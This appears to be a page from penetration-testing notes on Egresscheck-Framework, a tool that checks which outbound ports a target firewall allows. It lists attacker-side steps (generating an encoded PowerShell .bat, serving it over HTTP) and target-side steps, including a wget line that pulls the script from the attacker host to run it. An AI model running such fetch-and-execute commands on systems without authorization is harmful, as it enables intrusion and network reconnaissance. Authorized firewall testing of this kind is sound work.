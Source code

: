 [Back to Top](#table-of-contents)

------------------------------------------------------------------------------------------------------------------------------------------------------

## Egresscheck-Framework

Tags: [WIRESHARK](#WIRESHARK)

Automate the enumeration of searching ports and outbound connectivity or ports that were missed. Using the python tool we are **generating a script or powershell/cmdline isntruction** with set details that we will copy and paste directly into the remote desktop session. This tool is used on your personal host to generate the instructions; then the script is ran on the target host.

This will automate the **firewall** **assessment** to check for **outbound allowed ports**.

$Attacker$

> - `./ecf.py`
> - Set options
> - `generate powershell-cmd` to generate `.bat` file
> - `python -m SimpleHTTPServer $LPORT`
> - `wireshark`

$Target$

> - `python -version` 
> - `wget "$RHOST:$RPORT/$FILE.bat"`
> - ensure `wireshark` is running on LHOST before running `$FILE.bat`

|                                                                 | Description                                                                                             |
|:--------------------------------------------------------------- |:------------------------------------------------------------------------------------------------------- |
| @ **Egresscheck Setup**                                         | ---                                                                                                     |
| `cd /etc/opt/server`                                            | select location for program                                                                             |
| `git clone https://github.com/stufus/egresscheck-framework.git` | download file to current directory (your choice)                                                        |
|                                                                 |                                                                                                         |
| =========================================                       | =========================================                                                               |
| @ **Options**                                                   | ---                                                                                                     |
| `get`                                                           | **display all options** that can be amended                                                             |
| `set PORTS $PORT - $PORT`                                       | set range of ports to test                                                                              |
| `set targetip $RHOST`                                           | Running script from remote desktop, Host is the target IP                                               |
| `set sourceip $LHOST`                                           | The host IP that the file will be run on                                                                |
| `set PROTOCOL $PROTOCOL`                                        | TCP or UDP                                                                                              |
| `generate powershell-cmd`                                       | ecf will generate an encrypted command for powershell to run when executing the .bat file               |
| `wireshark`                                                     | Run wireshark on $LHOST to listen to traffic                                                              |

**Example of type of scripts to generate**
